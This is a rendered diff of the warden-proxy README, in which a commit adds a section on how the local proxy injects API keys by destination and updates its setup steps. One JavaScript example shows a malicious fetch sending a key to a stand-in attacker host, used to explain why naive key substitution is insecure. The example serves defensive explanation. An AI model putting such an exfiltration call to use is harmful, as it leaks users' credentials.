

Before and after one commit to nwcnwc/warden-proxy, a Markdown page: README.md, the part around one of its changes. Shown at 88% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -58,30 +75,68 @@ Warden runs locally on your machine and provides:
+No API key needed in the request. Warden injects it based on the destination service.
+
+## 🔐 Security Model
+
+Warden's security is built on one core principle: **authentication is determined by destination, never by request content.**
+
+### The Problem with Text-Based Key Injection
+
+A naive proxy might search for a fake key in the request and replace it with a real one. This is **catastrophically insecure**:
+
+```javascript
+// Malicious app sends fake key to an attacker's server
+fetch("https://evil.com/steal?key=sk-fake-1234")
+// A naive text-replacement proxy would inject the REAL key here
+// Now evil.com has your credentials
+```
+
+### How Warden Does It
+
+1. **Strip ALL auth** — Every request has its auth headers (`Authorization`, `x-api-key`, `api-key`, `cookie`) completely removed. Twice — once in the Service Worker (client-side) and again in the proxy (server-side). Defense in depth.
+
+2. **Match by destination** — Warden checks where the request is going: "This is headed to `api.openai.com`." That's a registered service.
+
+3. **Inject by identity** — The real API key is injected based solely on the destination service match. Not based on anything the app sent.
+
+4. **Allowlist enforcement** — Only registered service destinations receive key injection. A request to `evil.com` gets nothing — no key, no help, no information.
+
+**The app can put literally anything in the Authorization header** — a fake key, its grandma's phone number, the lyrics to a song. Warden doesn't care. It throws it all away and injects the real key based on where the request is going.
+
+This means a malicious or buggy app **cannot exfiltrate real credentials**, because:
+- It never sees them
+- It can't influence which key gets injected
+- It can't trick Warden into injecting keys for unauthorized destinations
 
 ## Quick Start
 
 ```bash
-# Install
-npm install -g warden-proxy
+# Clone the repo
+git clone https://github.com/nwcnwc/warden-proxy.git
+cd warden-proxy
 
 # Initialize config
-warden init
+node bin/warden.js init
 
-# Add an API key
-warden add-key openai sk-your-key-here
-
-# Allow a browser origin to use it
-warden allow http://localhost:3000 openai
+# Edit ~/.warden/config.yaml with your real API keys
+# (or set environment variables: OPENAI_API_KEY, ANTHROPIC_API_KEY, etc.)
 
 # Start the proxy
-warden start
+node bin/warden.js start
 ```
 
-Then from your browser app:
+### Transparent Mode (Service Worker)
+
+Add one script tag to your HTML — that's it:
+
+```html
+<script src="http://127.0.0.1:7400/client/warden-loader.js"></script>
+```
+
+Now every `fetch()` call to a registered API is transparently proxied through Warden. Your app code doesn't change. Your fake keys keep working. The real keys stay safe.
+
+### Direct Mode
 
 ```javascript
-// Instead of calling OpenAI directly (exposing your key):
-// fetch("https://api.openai.com/v1/chat/completions", { headers: { Authorization: "Bearer sk-..." } })
-
-// Call Warden (key injected server-side):
+// No key needed — Warden injects it
 const response = await fetch("http://localhost:7400/proxy/openai/v1/chat/completions", {
   method: "POST",
   headers: { "Content-Type": "application/json" },
@@ -92,7 +147,5 @@ const response = await fetch("http://localhost:7400/proxy/openai/v1/chat/complet
 });
 ```
 
-Warden injects the API key, forwards the request, and returns the response. Your browser code never sees the key.
-
 ## Configuration
 
````
Also changed, not shown: other parts of README.md (+145 -102 lines), SECURITY.md (added, +96 -0 lines), docs/architecture.md (added, +161 -0 lines).
